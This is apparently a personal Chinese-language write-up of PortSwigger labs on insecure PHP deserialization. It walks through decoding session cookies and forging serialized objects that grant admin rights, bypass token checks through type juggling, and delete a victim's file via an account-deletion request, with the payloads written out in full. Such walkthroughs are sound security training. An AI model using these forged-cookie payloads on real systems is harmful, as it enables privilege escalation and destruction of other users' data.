 ```yaml
---
title: Insecure deserialization
description: Insecure deserialization
---
```


## PHP serialization format

https://portswigger.net/web-security/deserialization/exploiting#php-serialization-format

## Java serialization format

https://portswigger.net/web-security/deserialization/exploiting#java-serialization-format

## Lab: Modifying serialized objects

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/deserialization/exploiting#modifying-object-attributes                      |
| Lab       | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects |

登入後，看到 Cookie `session: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=` (URL Decoded 版本)

```js
atob(
  "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=",
);
// O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

嘗試構造

```js
btoa(`O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}`);
// Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

塞回 Cookie.session，重整網頁，即可看到 Admin Panel～

## Lab: Modifying serialized data types

| Dimension | Description                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/deserialization/exploiting#modifying-data-types                                |
| Lab       | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types |

PHP 的 `==` 有一些特殊的情境

```php
5 == "5" // true
5 == "5 of something" // true

// in PHP 7.x and earlier
0 == "Example string" // true
```

登入後，看 Cookie.session

```js
atob(
  `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ2NzlnMXNrcHN0bWx2dm4xbDZ0NjI3ZWxqZXNxZHBtaCI7fQ==`,
);
// O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"v79g1skpstmlvvn1l6t627eljesqdpmh";}
```

參考 [function.serialize.php](https://www.php.net/manual/en/function.serialize.php) 修改成

```js
btoa(`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";i:0;}`);
// Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7fQ==
```

成功解題～

## Lab: Using application functionality to exploit insecure deserialization

| Dimension | Description                                                                                                                                             |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/deserialization/exploiting#using-application-functionality                                                         |
| Lab       | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization |

嘗試

```js
atob(
  `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkenh6MHB2eTd1ZDhqZnZneDAwczI1MjdtZHBxY2htaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=`,
);
// O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dzxz0pvy7ud8jfvgx00s2527mdpqchmh";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

改成

```js
btoa(
  `O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dzxz0pvy7ud8jfvgx00s2527mdpqchmh";s:11:"avatar_link";s:23:"users/carlos/morale.txt";}`,
);
// Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkenh6MHB2eTd1ZDhqZnZneDAwczI1MjdtZHBxY2htaCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6InVzZXJzL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

然後刪除帳號，可惜沒成功，還好還有另一組帳密可以用，登入後嘗試

```js
btoa(
  `O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";i:0;s:11:"avatar_link";s:19:"users/carlos/avatar";}'`,
);
// Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtpOjA7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30n
```

看到

```
PHP Fatal error: Uncaught Exception: (DEBUG: $access_tokens[$user->username] = e82ar2z914858ch6cqdugqpycrouj8qz, $user->access_token = 0, $access_tokens = [e82ar2z914858ch6cqdugqpycrouj8qz, gi9luj09fotgyfceggc3sfezlydykp0k, dzxz0pvy7ud8jfvgx00s2527mdpqchmh]) Invalid access token for user carlos in /var/www/index.php:8 Stack trace: #0 {main} thrown in /var/www/index.php on line 8
```

看一下目前登入的使用者

```js
atob(
  `Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImdpOWx1ajA5Zm90Z3lmY2VnZ2Mzc2Zlemx5ZHlrcDBrIjtzOjExOiJhdmF0YXJfbGluayI7czoxODoidXNlcnMvZ3JlZ2cvYXZhdGFyIjt9`,
);
// O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"gi9luj09fotgyfceggc3sfezlydykp0k";s:11:"avatar_link";s:18:"users/gregg/avatar";}
```

推測 `e82ar2z914858ch6cqdugqpycrouj8qz` 應該是 carlos 的 access_token，嘗試

```js
btoa(
  `O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"e82ar2z914858ch6cqdugqpycrouj8qz";s:11:"avatar_link";s:19:"users/carlos/avatar";}`,
);
// Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlODJhcjJ6OTE0ODU4Y2g2Y3FkdWdxcHljcm91ajhxeiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30=
```

重整後，被導回登入頁，但至少沒有噴錯了，再嘗試

```js
btoa(
  `O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"e82ar2z914858ch6cqdugqpycrouj8qz";s:11:"avatar_link";s:23:"users/carlos/morale.txt";}`,
);
// Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJlODJhcjJ6OTE0ODU4Y2g2Y3FkdWdxcHljcm91ajhxeiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6InVzZXJzL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
fetch(`${location.origin}/my-account/delete`, { method: "POST" });
```

看到錯誤

```html
Internal Server Error PHP Warning: file_put_contents(users/carlos/disabled):
failed to open stream: No such file or directory in /home/carlos/User.php on
line 45 PHP Fatal error: Uncaught Exception: Could not write to
users/carlos/disabled in /home/carlos/User.php:46 Stack trace: #0 Command line
code(5): User->delete() #1 {main} thrown in /home/carlos/User.php on line 46
```

剛才被導回登入頁，其實是因為我網址沒換，改成 https://0a880087032ab8d38411189b007500e1.web-security-academy.net/my-account?id=carlos 就可以成功看到 carlos 的帳號

用 carlos 的帳號上傳照片後，再刪除帳號，還是沒辦法解題，感覺就差臨門一腳了，忍住不要看答案～但既然 carlos 的帳號被我刪掉，應該就只能重啟 Lab 了QQ

- 從錯誤訊息 `No such file or directory in /home/carlos/User.php`
- Lab 的 Description `delete the morale.txt file from Carlos's home directory`
- 推測應該要改為 `/home/carlos/morale.txt`

```js
btoa(
  `O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"payia0hddvlpxag6yunxxwfzm1c48cgl";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}`,
);
// Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJwYXlpYTBoZGR2bHB4YWc2eXVueHh3ZnptMWM0OGNnbCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

成功解題～

## Magic methods

https://portswigger.net/web-security/deserialization/exploiting#magic-methods

invoked whenever an object of the class is instantiated

- PHP => `__construct()`
- Python => `__init__`

invoked automatically during the deserialization process

- PHP => `__wakeup()`
- Java => `ObjectInputStream.readObject()`

## Lab: Arbitrary object injection in PHP

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/deserialization/exploiting#injecting-arbitrary-objects                           |
| Lab       | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php |

## 參考資料

- https://portswigger.net/web-security/deserialization
